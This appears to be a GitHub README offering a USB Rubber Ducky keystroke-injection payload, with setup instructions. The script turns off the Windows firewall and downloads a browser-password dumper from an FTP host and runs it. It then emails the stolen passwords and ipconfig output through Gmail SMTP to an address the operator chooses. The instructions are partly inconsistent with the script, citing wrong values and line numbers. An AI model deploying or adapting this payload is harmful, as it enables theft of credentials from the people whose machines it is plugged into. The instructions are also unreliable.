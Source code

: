 ```
DELAY 800
GUI
DELAY 800
STRING Command Prompt
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 1500
STRING mkdir C:\DuckyReport
ENTER
STRING netsh advfirewall set allprofiles state off
ENTER
STRING ipconfig > C:\DuckyReport\ipconfig.txt
ENTER
STRING cd C:\DuckyReport
ENTER
STRING ftp
ENTER
STRING open ftp.drivehq.com
ENTER
DELAY 2500
STRING YourDriveHQUsername
ENTER
DELAY 2500
STRING YourDriveHQPassword
ENTER
DELAY 2500
STRING get BPD.exe
ENTER
DELAY 8000
STRING close
ENTER
DELAY 800
STRING quit
ENTER
DELAY 800
STRING BPD.exe -f BPD.txt
ENTER
DELAY 2500
STRING del BPD.exe
ENTER
DELAY 800
STRING Exit
ENTER
DELAY 800
GUI
DELAY 1000
STRING Powershell
ENTER
DELAY 1000
STRING $emailSmtpServer = "smtp.gmail.com";$emailSmtpServerPort = "587";$emailSmtpUser = "yourgmailusername@gmail.com";$emailSmtpPass = "YourGmailPassword";$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";$emailMessage.To.Add("EmailToSendTo@example.com");$emailMessage.Body = "See attachments";$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = "C:\DuckyReport\BPD.txt";$emailMessage.Attachments.Add($attachment);$attachment2 = "C:\DuckyReport\ipconfig.txt";$emailMessage.Attachments.Add($attachment2);$SMTPClient.Send($emailMessage);
ENTER
DELAY 5000
STRING exit
ENTER
```


## Instructions:
1. Create an free account at [https://www.drivehq.com/features/ftp.aspx](https://www.drivehq.com/features/ftp.aspx)
2. Download BPD.zip and extract it from [https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing](https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing)
3. Go to your account and upload BPD.exe to the root directory.
4. In the script please change the following to your information:
    On line 22 ```STRING YourDriveHQUsername``` change ___YourDriveHQUsername___ to your username for www.drivehq.com

    On line 25 ```STRING YourDriveHQPassword``` change ___YourDriveHQPassword___ to your password for www.drivehq.com

    On line 51 ```$emailSmtpUser = "alibefree884@gmail.com";``` This the account email used to send the email with 
        the passwords list. It is only set to use a gmail address. Change ___alibefree884@gmail.com___ to your email. 
        Leave the quotation marks on both sides there.

    On line 51 ```$emailSmtpPass = "alibefree884@gmail.com";``` change ___alibefree884@gmail.com___ to the password for your account 
        but leave the quotation marks on both sides there.

    On line 51 ```$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";``` change 
        ___alibe ___ to your email address. Please leave the brackets on either side of the email 
        address.
    On line 51 ```$emailMessage.To.Add("EmailToSendTo@example.com");``` change ___EmailToSendTo@example.com___ to whatever 
        email you are sending the files to. Leave the quotation marks on both sides there.

5. Load the script on your USB RubberDucky and you are ready to do some reconnaissance.